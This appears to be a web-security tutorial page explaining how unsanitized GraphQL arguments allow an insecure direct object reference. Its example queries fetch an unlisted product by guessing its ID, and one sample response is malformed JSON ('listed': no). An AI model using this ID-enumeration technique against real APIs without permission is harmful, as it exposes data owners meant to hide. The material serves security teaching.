 # Exploiting Unsanitized Arguments

{% hint style="info" %}
* For a general explanation of GraphQL arguments, see [Arguments](https://portswigger.net/web-security/graphql/what-is-graphql#arguments).
* For further information on IDORs, see [Insecure direct object references (IDOR)](https://portswigger.net/web-security/access-control/idor).
{% endhint %}



For example, the query below requests a product list for an online shop:

```
 #Example product query

    query {
        products {
            id
            name
            listed
        }
    }
```



The product list returned contains only listed products.

```
#Example product response

    {
        "data": {
            "products": [
                {
                    "id": 1,
                    "name": "Product 1",
                    "listed": true
                },
                {
                    "id": 2,
                    "name": "Product 2",
                    "listed": true
                },
                {
                    "id": 4,
                    "name": "Product 4",
                    "listed": true
                }
            ]
        }
    }

```



By querying the ID of the missing product, we can get its details, even though it is not listed on the shop and was not returned by the original product query.

```
#Query to get missing product

    query {
        product(id: 3) {
            id
            name
            listed
        }
    }
```

```
 #Missing product response

    {
        "data": {
            "product": {
            "id": 3,
            "name": "Product 3",
            "listed": no
            }
        }
    }

```

